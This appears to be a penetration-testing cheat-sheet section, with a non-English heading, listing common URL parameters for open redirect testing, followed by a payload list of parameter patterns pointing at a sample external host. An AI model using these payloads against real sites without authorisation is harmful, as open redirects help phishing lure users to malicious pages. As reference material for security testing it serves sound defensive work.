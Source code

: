 ## Uobičajeni parametri za ubrizgavanje

When testing for open redirect vulnerabilities, it is important to understand the common injection parameters that can be exploited. These parameters are often found in the URL or in the request parameters. Here are some examples:

* **url**: This parameter is used to specify the target URL. Attackers can manipulate this parameter to redirect users to malicious websites.
* **redirect**: This parameter is used to specify the redirect URL. Attackers can modify this parameter to redirect users to a different website.
* **next**: This parameter is commonly used in login and authentication flows to redirect users after successful login. Attackers can abuse this parameter to redirect users to malicious sites.
* **return**: This parameter is often used in logout flows to redirect users after logging out. Attackers can tamper with this parameter to redirect users to malicious destinations.
* **callback**: This parameter is commonly used in JSONP (JSON with Padding) requests to specify the callback function. Attackers can manipulate this parameter to redirect users to malicious sites.

By understanding these common injection parameters, you can effectively identify and exploit open redirect vulnerabilities during penetration testing.

```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
```